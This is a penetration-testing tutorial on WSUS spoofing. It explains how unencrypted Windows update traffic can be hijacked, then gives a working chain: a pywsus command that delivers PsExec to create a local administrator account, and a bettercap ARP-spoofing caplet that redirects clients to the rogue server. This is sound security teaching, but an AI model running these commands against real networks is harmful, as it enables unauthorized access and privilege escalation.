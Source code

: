 ```yaml
---
authors: ShutdownRepo
---
```


# WSUS spoofing

## Theory

WSUS (Windows Server Update Services) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute (which can only be a binary signed by Microsoft) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## Practice

The following command prints the WSUS server the client requests when searching for an update. If the path looks like `http://wsus.domain.local/`, showing the use of HTTP instead of HTTPS, the attacks can be attempted.

```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver
```

The WSUS spoofing attack can be conducted as follows

1. Obtain a Man-in-the-Middle position between clients and the update server with [ARP poisoning](arp-poisoning.md).
2. Redirect traffic from `clients -> legitimate WSUS` to `clients -> attacker's WSUS`
3. Have a custom WSUS server running able to send evil updates to clients

In a scenario where the clients and the attacker are on the same subnet, and the update server is on another one, the steps below can be followed. For other scenarios or more info on ARP poisoning, a recipe exists for it.

> [!TIP]
> Read the [arp-poisoning.md](arp-poisoning.md) article for more insight


### Preparing the evil WSUS

The evil WSUS server needs to be started before doing any ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)(Python) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser somepassword /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called [Living off the land](../../../infra/privilege-escalation/windows/living-off-the-land) (LOL). Other Windows LOL binaries and scripts (a.k.a. LOLbins or LOLbas) can be found on [lolbas-project.github.io](https://lolbas-project.github.io).

### Poisoning and hijacking

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) (Go) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.


```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```


The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`. 

> [!TIP]
> By default, the automatic updates interval is 22 hours ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).

## Alternative attack

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## Resources

[https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
